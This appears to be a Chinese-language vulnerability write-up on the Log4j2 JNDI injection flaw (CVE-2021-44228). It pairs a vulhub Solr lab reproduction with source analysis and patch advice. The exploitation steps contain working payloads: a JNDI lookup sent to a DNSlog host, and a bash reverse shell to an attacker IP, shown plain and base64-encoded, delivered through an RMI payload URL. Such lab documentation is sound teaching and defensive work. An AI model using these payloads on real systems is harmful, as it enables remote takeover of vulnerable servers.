






# CVE-2021-44228 Log4j2 RCE

## Description

Apache Log4j2 是一款优秀的 Java 日志框架。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。阿里云应急响应中心提醒 Apache Log4j2 用户尽快采取安全措施阻止漏洞攻击。

vulhub: [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)


### 影响版本

Apache Log4j 2.x <= 2.14.1

## 扩展知识
### JNDI

JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 在局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。

​JNDI 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA 对象服务、RMI 等等。

其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等。

## Explanation of exploit; PoC

### 验证是否存在漏洞

1. 靶场运行后，访问 `http://your-ip:8983` ，如果页面显示 `Solr Admin`，则说明部署成功。
2. 先通过 [Dnslog](http://dnslog.cn/) 平台获取一个子域名 `ie2p24.dnslog.cn`
3. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater。
4. 修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:ldap://ie2p24.dnslog.cn}` ，并发送请求。
    
5. 访问 [Dnslog](http://dnslog.cn/) 平台，可以看到已经收到了请求，说明存在漏洞。
    

### 利用漏洞 RCE

1. 使用 [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases) 进行漏洞利用
2. 反弹 Shell 指令 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1`，其中 `192.168.10.20` 为 Kali 的 IP 地址，`4444` 为 Kali 的监听端口。
3. 为提高命令执行有效负载 Runtime.getRuntime().exec() 的成功率，将此条反弹 Shell 指令进行 Java Runtime Bash 编码，参考 [Java Runtime Bash Encoding](https://x.hacking8.com/java-runtime.html)
4. 编码后的反弹 Shell 指令为 `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}`
5. 将编码后的反弹 Shell 指令作为参数传入 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，执行命令 `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.10.20`，其中 `-C` 为命令参数，`-A` 为 Kali IP 地址。
    
6. 同时在 Kali 上监听 `4444` 端口。
    
7. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater，修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:rmi://192.168.10.20:1099/aq9oex}` ，并发送请求。其中 `rmi://192.168.10.20:1099/aq9oex` 为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 生成的 Payload。
    
8. 回到 Kali，可以看到已经收到了反弹 Shell 请求，说明利用成功。
    

### 漏洞分析

漏洞触发点在 Logger 的 `debug、info、warn、error、fatal` 方法


这些方法都会调用 `logIfEnabled` 方法


从 `logIfEnabled` 层层跟入，到达 `MessagePatternConverter` 类的 `format` 方法，在这个方法内部，会先判断 `this.config != null && !this.noLookups` 的值是否为真，其中 `this.noLookups` 的值来自于 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`，`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 的值又来自于 JVM 参数 `log4j2.formatMsgNoLookups` 的值，相关代码如下

```java
this.noLookups = Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS || noLookupsIdx >= 0;
···
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

所以只要 JVM 参数中 `log4j2.formatMsgNoLookups==True`，漏洞利用就无法成功。

之后的代码会判断要打印的日志字符串 `workingBuilder` 中是否包含连续的两个字符 `$` 和 `{`。如果存在，就将 `${xxx}` 这段字符提取出来，传入 `StrSubstitutor` 类的 `replace` 方法


最后传入 `substitute` 方法中。`substitute` 会调用 `resolveVariable` 方法，


`resolveVariable` 方法中会进行 `resolver.lookup` 查询，


最后会进入 `JndiLookup.lookup` 方法进行 jndi 查询，查询的参数就是 `ldap://127.0.0.1:1389/a`


## Mitigation
### 通用修补建议

- 升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1
- 升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

### 临时修补建议

- 设置 JVM 启动参数 `-Dlog4j2.formatMsgNoLookups=true`
- 拦截请求中的 `${` 字符串
- 限制不必要的应用访问外网

## References

- [Apache Log4j 远程代码执行漏洞源码级分析](https://www.cnblogs.com/510602159-Yano/p/15689497.html)
- [CVE-2021-44228——Log4j2-RCE漏洞复现](https://www.cnblogs.com/loongten/p/15822195.html)
- [java命令执行payloads编码工具](https://x.hacking8.com/java-runtime.html)
- [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
- [marshalsec](https://github.com/mbechler/marshalsec)